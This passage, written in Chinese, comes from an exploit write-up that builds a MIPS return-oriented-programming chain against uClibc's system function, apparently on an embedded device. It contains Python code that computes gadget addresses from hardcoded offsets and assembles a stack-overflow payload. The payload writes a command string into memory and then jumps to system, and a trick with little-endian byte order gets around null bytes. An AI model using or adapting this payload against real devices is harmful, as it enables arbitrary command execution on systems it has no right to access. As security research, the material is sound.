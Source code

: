    因此可以通过这个原理，直接往内存中可写的地址写入需要的字节
   
	![/image/cfac100/3.png](/image/cfac100/14.png) 

3. 第三条 gadget 位于 libuClibc-0.9.33.2.so 中的 system 函数附近，该 gadget 地址为 0x2B3FFFF4，首先该 gadget 从栈上获取值并赋值给 $a0，而后旋即将 $s7 赋值给 $t9，再 jalr $t9.

	在这里笔者需要解释一下，$a0 从栈上获取值 0x0047c010，但实际上并不能写入 `\x00` 字节，这就意味着可能要 另找其他 gadget 适应.  
	但实际上并不用那么复杂，由于这条 gadget 是最后一个被调用的，只需要向栈中最后三个字节写入 0x47C010，由于小端特性，这三个字节和栈外的 `\x00` 会组成 0x0047c010，因此
   
   ![/image/cfac100/3.png](/image/cfac100/10.png)     

接下来写代码：首先根据偏移量，分别计算两条 gadget 的位置，以及计算 system 原函数地址

```py
#by leeya_bug

if True:
	system_addr			= 0x2B4002F0
	uClibc_main_addr	= 0x2B2B2550
	string_addr			= 0x0047C010

	gadget_jalr_addr	= system_addr - 0x2fc
	# 0x2B2B2550 		是 __uClibc_main 的起始地址
	# 0x68				是 __uClibc_main 起始至 __uClibc_main 末尾指令 jr $t9 的距离
	# 0x65B8 - 0x4E04	是 __uClibc_main 中指令 jr $t9 至 gadget 起始距离
	gadget_addr 		= uClibc_main_addr + 0x68 - (0x65B8 - 0x4E04)
	gadget_write_addr	= system_addr - (0x000502F0 - 0x00028810)
```

首先利用 gadget1、2，构造一个向地址 string_addr + offset 写入长度为四字节的 string 的函数 (可以多次调用该函数分步写入)

```py
#by leeya_bug

def write_string_at(string, offset, jump_to=gadget_addr):
	if True:
		# gadget 1, 2
		data0 = b''
		data0 += b'A' * 0x1c								# stack padding, register padding
		data0 += string.encode()							# s1 
		data0 += p32(0x80f0f0f0) 							# s2 
		data0 += p32(0x7f0f0f0f + 1 + string_addr + offset) # s3 
		data0 += b'A' * 16									# register padding
		data0 += p32(jump_to)								# fp, return addr of gadget 2 
		data0 += p32(gadget_write_addr) 					# ra, return addr of gadget 1
		return data0
```
